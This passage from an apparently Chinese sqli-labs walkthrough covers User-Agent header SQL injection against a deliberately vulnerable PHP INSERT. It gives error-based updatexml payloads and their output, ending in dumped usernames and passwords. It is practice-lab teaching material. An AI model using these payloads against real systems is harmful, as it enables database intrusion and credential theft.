 ```php
	return $value;
	}
```

```php
(重点代码)
$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
//这里的VALUES ('$uagent', '$IP', $uname)";没有做安全审查 从而可以被利用 可能存在sql注入的漏洞 进行尝试
```

**闭合方式分析：** 
$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) **VALUES ('$uagent', '$IP', $uname)";**
先输入一个' 闭合 '$uagent' 中前面的' 使得中间有空间给我们插入非法sql代码 ， 必须传入三个参数 这边用1,2,3 然后输入 # 注释后面的所有语句

**注意：** value是用（）括起来的 后面的）被 # 注释掉了 所以后面必须补上一个） 
最后 闭合后的uagent为：

```mysql
SQL增查改语句 >> INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES (1,2,3);  
SQL注入攻击语句 >> User-Agent:' or 1,2,3) #
```

**开始注入：**
(这里可以利用burp suite的repeater来注入)

```mysql
User-Agent:' or updatexml(1,concat(0x7e,(select database())),1),2,3) #
回显: XPATH syntax error: '~security'
```

```mysql
User-Agent:' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())),1),2,3) #
回显: XPATH syntax error: '~emails,referers,uagents,users'
```

```mysql
User-Agent:' or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' limit 0,1)),1),2,3) #
回显: XPATH syntax error: '~id,username,password'
```

最后一步 爆数据:

```mysql
User-Agent:' or updatexml(1,concat(0x7e,(select group_concat(username,':',password) from users limit 0,1)),1),2,3) #
回显: XPATH syntax error: '~Dumb:Dumb,Angelina:I-kill-you,D'
修改limit的值依次类推 ... (拿到数据)
```

------

## less-19

